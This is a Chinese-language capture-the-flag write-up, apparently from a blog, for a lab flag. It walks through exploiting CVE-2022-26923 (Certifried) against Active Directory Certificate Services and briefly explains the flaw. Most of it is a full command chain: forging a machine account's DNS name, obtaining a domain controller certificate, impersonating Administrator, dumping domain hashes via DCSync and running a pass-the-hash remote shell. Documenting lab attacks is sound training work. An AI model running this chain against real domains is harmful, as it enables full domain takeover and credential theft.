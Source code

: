 <!-- https://blog.csdn.net/longlangci/article/details/131686439 -->
网鼎 2022 半决赛靶场 flag04

- 更改 DNS Host Name。

```ps1
# 方法一, 如果用方法一后面的Test2都要改为Test1, 当前脚本使用的是方法二即 Test2用户
# 执行powershell将之前创建的机器账号Test1的DNS Host Name为域控的XR-DC01.xiaorang.lab并删除SPN。
$searcher = New-Object System.DirectoryServices.DirectorySearcher([ADSI]'')
$searcher.filter = '(&(objectClass=computer)(sAMAccountName={0}$))' -f "Test1"
$obj = [ADSI]$searcher.FindAll().Path
$spn = @()
$obj.servicePrincipalName | % { $spn += $_ }
$dns = $obj.dNSHostName.ToString()
$spn | % { $obj.servicePrincipalName.Remove($_) }
$obj.dNSHostName = "xr-dc01.xiaorang.lab"
$obj.SetInfo()

# 方法二
# 通过certipy-ad创建一个机器账号Test2，并且设置DNS Host Name为域控的 XR-DC01.xiaorang.lab。
pip3 install certipy-ad
proxychains certipy account create -u lixiuying@xiaorang.lab -p winniethepooh -dc-ip 172.22.15.13 -user Test2 -pass Test1234 -dns 'XR-DC01.xiaorang.lab'
```

- 用该机器账户向 XR-CA 请求证书。

```sh
# 申请域控制器账户的证书, 由于 Test2 的 dNSHostName 属性值已被修改为 xr-dc01.xiaorang.lab，因此以该账户申请证书时，将为我们颁发域控制器的计算机账户的证书。
proxychains certipy req -u Test2\$@xiaorang.lab -p Test1234 -target 172.22.15.18 -ca "xiaorang-XR-CA-CA" -template Machine
proxychains certipy auth -pfx xr-dc01.pfx -dc-ip 172.22.15.13 -debug # 遇到 KDC_ERR_PADATA_TYPE_NOSUPP 错误，显示 KDC 不支持 PADATA 类型（预认证数据）, Kerberos 预身份验证失败。用方法二
```

```sh
# 方法二  KDC 不支持 PADATA 类型时
certipy cert -pfx xr-dc01.pfx > cert.pem

# 密码为Test1234
openssl pkcs12 -in cert.pem -keyex -CSP "Microsoft Enhanced Cryptographic Provider v1.0" -export -out cert.pfx

# 在远程桌面机器上复制 PassTheCertificate 和  cert.pfx 后执行
PassTheCertificate.exe -CertPath .\cert.pfx -CertPassword Test1234 -MachineAccount Test3$ -MachinePassword Test1234 -Target "CN=XR-DC01,OU=Domain Controllers,DC=xiaorang,DC=lab"

# kali: 配置 hosts
sudo vi /etc/hosts
172.22.15.35 XR-0687.xiaorang.lab
172.22.15.13 XR-DC01.xiaorang.lab

proxychains impacket-getST xiaorang.lab/Test3\$:Test1234 -dc-ip 172.22.15.13 -spn cifs/XR-DC01.xiaorang.lab -impersonate Administrator

export KRB5CCNAME=Administrator.ccache
proxychains impacket-wmiexec -k XR-DC01.xiaorang.lab  -dc-ip 172.22.15.13 -no-pass
```

```sh
# 方法一 支持 PADATA 类型时
## 通过颁发的证书对KDC进行PKINIT Kerberos身份验证，并获取域控制器账户的TGT票据。
proxychains4 certipy auth -pfx xr-dc-01.pfx -username XR-DC01\$ -domain xiaorang.lab -dc-ip xr-dc01.xiaorang.lab

## 由于域控制器账户默认对域对象拥有DS-Replication-Get-Changes和DS-Replication-Get-Change-All扩展权限，因此可以通过DCSync转储所有域哈希。
export KRB5CCNAME=xr.dc01.ccache
proxychains4 python3 secretsdump.py -k xiaorang.lab/xr-dc01\$@xr-dc01.xiaorang.lab -no-pass -just-dc
proxychains4 impacket-wmiexec xiaorang.lab/Administrator@xr-dc01.xiaorang.lab -hashes :26b321bde63de24097cd6610547e858b
```

# 介绍 CVE-2022-26923

该漏洞是由于对用户属性的不正确获取,允许低权限用户在安装了 Active Directory 证书服务（AD CS）的域环境中将权限提升至域管理员。

- Certifried-Active Directory Elevation of Privilege
- 默认情况下，域用户账户可以注册 User 证书模板，计算机账户可以注册 Machine 证书模板。
  两个证书模板都允许执行客户端身份验证。
- 在申请计算机证书时，ADCS 将计算机对象的 dNSHostName 属性的值添加到证书的主题备用名称中。当我们使用证书进行身份验证时，KDC 会尝试将这个 dNSHostName 属性值从证书映射到目标账户。
- 因此，如果我们将某个可控计算机账户（PENTEST01 ＄）的 dNSHostName 值改为与域控制器的计算机账户相同的 dNSHostName 值，那么就意味着我们可以欺骗 AD CS，并最终申请到域控制器的 AD 证书。
